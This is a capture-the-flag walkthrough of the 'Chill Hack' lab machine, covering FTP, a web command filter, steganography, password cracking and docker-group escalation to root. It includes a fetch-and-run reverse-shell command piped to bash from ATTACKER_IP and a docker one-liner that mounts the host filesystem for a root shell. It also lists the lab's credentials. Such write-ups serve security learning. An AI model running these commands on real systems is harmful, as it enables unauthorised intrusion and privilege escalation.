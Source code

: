 # Chill Hack

### Investigate!
Initial scan shows port 21,22 and 80 open: 

Nmap scan report for 10.10.234.14
Host is up (0.058s latency).                                                 
                                                                             
    PORT   STATE SERVICE VERSION                                                 
    21/tcp open  ftp     vsftpd 3.0.3                                            
    | ftp-syst:                                                                  
    |   STAT:                                                                    
    | FTP server status:                                                         
    |      Connected to ::ffff:10.14.90.188                                      
    |      Logged in as ftp                                                      
    |      TYPE: ASCII                                                           
    |      No session bandwidth limit                                            
    |      Session timeout in seconds is 300                                     
    |      Control connection is plain text                                      
    |      Data connections will be plain text                                   
    |      At session startup, client count was 2                                
    |      vsFTPd 3.0.3 - secure, fast, stable                                   
    |_End of status                                                              
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)                       
    |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt           
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                         
    | ssh-hostkey:                                                               
    |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)               
    |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
    |_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Game Info
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

The ftp server contains the following note:<br />
![image](https://github.com/user-attachments/assets/4f8fa8bc-bcf5-4fd1-822a-9d3d8dd156ff)<br />
Directory enumeration reveals a `/secret` directory:<br />
![image](https://github.com/user-attachments/assets/822e6da3-2aa7-4d16-88a5-2b4946036515)<br />
There's a filter that won't allow me to run commands such as `ls` or `nc`. However I found a way to spawn a reverse shell. The `curl` command is not filtered. So create a `rev.sh` containing the code for a reverse shell, then open a netcat listener (I used port 4444),
and then run the command `curl http://ATTACKER_IP/rev.sh|bash`<br />
![image](https://github.com/user-attachments/assets/f4227d70-02b3-4338-8e8d-fe8d3afef683)<br />
Inside `/var/www/files/index.php`, I found a set of credentials:<br />
![image](https://github.com/user-attachments/assets/bbe00638-77db-4130-8cd1-22e48b59e7a6)<br />
root:!@m+her00+@db<br />
There are two hashes inside this database:<br />
![image](https://github.com/user-attachments/assets/a238661c-35c4-4d51-90f1-a43706357704)<br />
These passwords are respectively:<br />
`masterpassword`<br />
`dontaskdonttell`<br />
For now these passwords don't seem to be useful. I then found another local web server on port 9001, hosted in `/var/www/files` and found a hint inside `/var/www/files/hacker.php`:<br />
![image](https://github.com/user-attachments/assets/2e4dfbf7-70ee-4017-8f5d-883fb86204fc)<br />
So I thought that maybe some hidden information might be inside one of these two files inside `/images/`:<br />
![image](https://github.com/user-attachments/assets/a48a280d-0120-4f19-878f-68f9f7a0a0cb)<br />
So I transfered the hacker image to my kali machine using netcat, and called it `hacker.jpg`. Then I downloaded [this tool](https://www.kali.org/tools/steghide/) to extract information embedded inside images.<br />
![image](https://github.com/user-attachments/assets/5314d775-fe76-49a4-be0e-02359554a817)<br />
Providing an empty passphrase was enough to extract a `backup.zip` file. However this zip file is encrypted:<br />
![image](https://github.com/user-attachments/assets/cc198342-05dd-4e07-b0a3-11b5ac097d32)<br />
To try and crack it, I use john:<br />
![image](https://github.com/user-attachments/assets/d6471bf0-11eb-41d1-8531-521a8ba382aa)<br />
So I unzipped the file and got a file called `source_code.php`. It contains a base64 encoded password:<br />
![image](https://github.com/user-attachments/assets/6fed5429-1360-42a0-8b46-b74e29c1149b)<br />
The decoded password is `!d0ntKn0wmYp@ssw0rd`. <br />
With this password, I was able to log into `anurodh`'s account using ssh. <br />
Linpeas gives me this output:<br />
![image](https://github.com/user-attachments/assets/fd331ba9-fcba-4e1e-b09c-1482d36182a2)<br />
This means that anurodh is part of the `docker` group. The docker group can obtain root privileges on the machine. This is because the daemon `dockerd` requires root privileges to execute. The docker user(and group) can execute the `docker` command, which can be used to run containers that can access the entire file system. <br />
To exploit this, run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`. This will spawn a shell as root.
![image](https://github.com/user-attachments/assets/e8da73d7-65a1-4540-8c26-942a54763a2f)<br />
I asked chatGPT to generate a command to exploit this,but let's break down this command:<br />
- `docker run`: It creates a temporary environment using an image (in this case, alpine). Alpine is a minimal Linux distribution that is very lightweight
- `-v /:/mnt`: This mounts the entire root filesystem of the host (/) into the container at /mnt
- `--rm`: This flag ensures that the container is automatically removed after it stops.
- `-it`: -i: Keeps the container's standard input open so you can interact with it. -t: Allocates a pseudo-terminal for the container, making it behave like an interactive shell.
- `alpine`: This specifies the Docker image to use.
- `chroot /mnt sh`: This is the command executed inside the container. `chroot`: Changes the apparent root directory (/) for the container to the directory `/mnt`.
Since `/mnt` is mounted to the host's root filesystem, this effectively means the container's root environment now "becomes" the host's filesystem.
`sh`: Starts a shell session within the new root environment.<br />
